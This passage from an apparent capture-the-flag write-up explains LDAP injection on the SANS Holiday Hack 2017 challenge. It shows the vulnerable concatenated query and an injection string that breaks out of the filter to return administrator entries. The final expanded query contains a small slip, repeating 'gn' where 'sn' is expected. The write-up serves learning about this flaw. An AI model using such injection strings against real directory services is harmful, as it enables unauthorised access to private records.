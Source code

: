 #### Example - Sans Holiday Hack 2017

The [2017 Sans Holiday Hack Challenge](https://holidayhackchallenge.com/2017/) was the first CTF I did that required LDAP inejction. I had access to the LDAP schema and page source that showed the following query was being run on the server:

```

result = ldap_query('(|(&(gn=*'+request.form['name']+'*)(ou=Elf))
(&(sn=*'+request.form['name']+'*)(ou=Elf)))', attribute_list)

```

I can add some spacing to see what’s going on:

```

(|
    (&(gn=*'+request.form['name']+'*)(ou=Elf))
    (&(sn=*'+request.form['name']+'*)(ou=Elf))
)

```

This query is trying to return items where either the first name (or given name, gn) or the last name matches the user supplied name, and the organizational unit is Elf. So the intended case, where the user enters “bob”, makes the query:

```

(|
    (&(gn=*bob*)(ou=Elf))
    (&(sn=*bob*)(ou=Elf))
)

```

I want access to the administrators info, so I’ll provide the following name:

```

)(department=administrators))(&(gn=xxx

```

That makes the resulting search:

```

(|
    (&(gn=**)(department=administrators))
    (&(gn=*xxx*)(ou=Elf))
    (&(sn=**)(department=administrators))
    (&(gn=*xxx*)(ou=Elf))
)

```
